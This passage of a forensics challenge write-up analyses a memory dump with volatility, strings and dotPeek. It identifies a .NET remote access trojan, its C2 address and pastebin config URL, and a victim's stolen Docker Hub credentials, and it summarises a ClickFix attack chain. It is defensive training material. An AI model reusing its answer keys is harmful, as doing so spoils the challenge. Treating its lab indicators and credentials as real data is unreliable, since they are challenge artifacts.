ImageSectionObject      0xc50fa4c0e210  winlogon.exe    file.0xc50fa4c0e210.0xc50fa4afe580.ImageSectionObject.winlogon.exe.img

luongdung@lngdun:/mnt/e/htb/Sherlock/Opportunist/Opportunist/Opportunist_mem$ file file.0xc50fa4c0e210.0xc50fa4afe580.ImageSectionObject.winlogon.exe.img
file.0xc50fa4c0e210.0xc50fa4afe580.ImageSectionObject.winlogon.exe.img: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```

A .NET trojan actually.



I decompiled it using dotPeek, and looking for a while I found the pastebin link containing C2 server.



And bingo



### Second approach

Just dump it out and string (no reversing needed)

```
luongdung@lngdun:/mnt/e/htb/Sherlock/Opportunist/Opportunist/Opportunist_mem$ strings -e l file.0xc50fa4c0e210.0xc50fa4afe580.ImageSectionObject.winlogon.ex
e | grep pastebin
https://pastebin.com/raw/C2pMswe8
```

### Third approach

NetScan plugin of volatility.



**ANSWER: 172.16.150.130:6606**

## Task 13: The C2 payload used an external URL to fetch its config. What is the full URL?

So I guess the author's intended one was my third approach.

**ANSWER: https://pastebin.com/raw/c2pMswe8**

## Task 14: The payload was identified as a possible remote access trojan belonging to a well-known malware family. What is the malware version and the key value?

Also in variables in Settings class



**ANSWER: 0.5.7B_NYAN CAT**

## Task 15: The attacker stole the victim's Docker Hub credentials alongside other critical information. What are the stolen credentials?

Playing a bit in `Recent folder`, I spotted this `backup` and `.env`, both were originated from `Documents` folder.



And it was residential in MFT.



**ANSWER: techflow-devops:D0ck3rHub_2025!**


## Attack chain

An attacker pretended to be a HR sent a Hiring information to Kraus, but it was a ClickFix malware. Kraus was lured to execute an encoded Powershell script, it downloaded furthur payloads masquerading legtimate Windows processes and remain persistence on his compromised machine. And finally stealed his credentials.